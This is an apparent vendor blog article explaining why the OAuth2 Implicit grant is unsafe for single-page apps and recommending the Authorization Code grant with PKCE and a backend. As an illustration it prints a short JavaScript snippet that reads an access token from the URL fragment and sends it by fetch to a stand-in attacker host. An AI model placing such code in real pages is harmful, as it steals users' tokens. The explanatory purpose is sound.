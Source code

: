 ```yaml
---
publish_date: 2021-04-29 
title: What's Wrong With the OAuth2 Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
authors: Brian Pontarelli
image: /img/blogs/avoid-implicit-grant/whats-wrong-with-the-oauth2-implicit-grant-header-image.png
categories: article
tags: client-javascript javascript standards oauth implicit-grant
excerpt_separator: "{/* more */}"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

{/* more */}

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

![Just a rabbit?](/img/blogs/avoid-implicit-grant/Rabbitattack.jpg)

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/learn/expert-advice/oauth/modern-guide-to-oauth) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

